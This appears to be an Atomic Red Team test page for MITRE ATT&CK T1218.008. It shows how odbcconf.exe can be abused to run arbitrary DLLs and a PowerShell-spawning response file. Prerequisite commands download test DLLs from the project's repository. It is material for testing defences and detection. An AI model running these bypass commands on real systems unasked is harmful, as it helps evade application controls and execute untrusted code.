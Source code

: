 # T1218.008 - Odbcconf
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1218/008)
<blockquote>Adversaries may abuse odbcconf.exe to proxy execution of malicious payloads. Odbcconf.exe is a Windows utility that allows you to configure Open Database Connectivity (ODBC) drivers and data source names.(Citation: Microsoft odbcconf.exe) The Odbcconf.exe binary may be digitally signed by Microsoft.

Adversaries may abuse odbcconf.exe to bypass application control solutions that do not account for its potential abuse. Similar to [Regsvr32](https://attack.mitre.org/techniques/T1218/010), odbcconf.exe has a <code>REGSVR</code> flag that can be misused to execute DLLs (ex: <code>odbcconf.exe /S /A &lbrace;REGSVR "C:\Users\Public\file.dll"&rbrace;</code>). (Citation: LOLBAS Odbcconf)(Citation: TrendMicro Squiblydoo Aug 2017)(Citation: TrendMicro Cobalt Group Nov 2017) 
</blockquote>

## Atomic Tests

- [Atomic Test #1 - Odbcconf.exe - Execute Arbitrary DLL](#atomic-test-1---odbcconfexe---execute-arbitrary-dll)

- [Atomic Test #2 - Odbcconf.exe - Load Response File](#atomic-test-2---odbcconfexe---load-response-file)


<br/>

## Atomic Test #1 - Odbcconf.exe - Execute Arbitrary DLL
Execute arbitrary DLL file stored locally.

**Supported Platforms:** Windows


**auto_generated_guid:** 2430498b-06c0-4b92-a448-8ad263c388e2





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| dll_payload | DLL to execute | Path | PathToAtomicsFolder&#92;T1218.008&#92;src&#92;Win32&#92;T1218-2.dll|


#### Attack Commands: Run with `command_prompt`! 


```cmd
odbcconf.exe /S /A {REGSVR "#{dll_payload}"}
```




#### Dependencies:  Run with `powershell`!
##### Description: T1218-2.dll must exist on disk at specified location (#{dll_payload})
##### Check Prereq Commands:
```powershell
if (Test-Path #{dll_payload}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{dll_payload}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.008/src/Win32/T1218-2.dll" -OutFile "#{dll_payload}"
```




<br/>
<br/>

## Atomic Test #2 - Odbcconf.exe - Load Response File
Execute arbitrary response file that will spawn PowerShell.exe.
Source files: https://github.com/woanware/application-restriction-bypasses

**Supported Platforms:** Windows


**auto_generated_guid:** 331ce274-f9c9-440b-9f8c-a1006e1fce0b





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| rsp_file_name | Response file name to load | String | T1218.008.rsp|
| rsp_file_path | Response file path | String | PathToAtomicsFolder&#92;T1218.008&#92;bin&#92;|


#### Attack Commands: Run with `command_prompt`! 


```cmd
cd #{rsp_file_path}
odbcconf.exe -f #{rsp_file_name}
```




#### Dependencies:  Run with `powershell`!
##### Description: T1218.008.rsp must exist on disk at specified location (#{rsp_file_path}#{rsp_file_name})
##### Check Prereq Commands:
```powershell
if (Test-Path #{rsp_file_path}#{rsp_file_name}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.008/bin/T1218.008.rsp" -OutFile "#{rsp_file_path}#{rsp_file_name}"
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.008/bin/o.dll" -OutFile "#{rsp_file_path}\o.dll"
```




<br/>
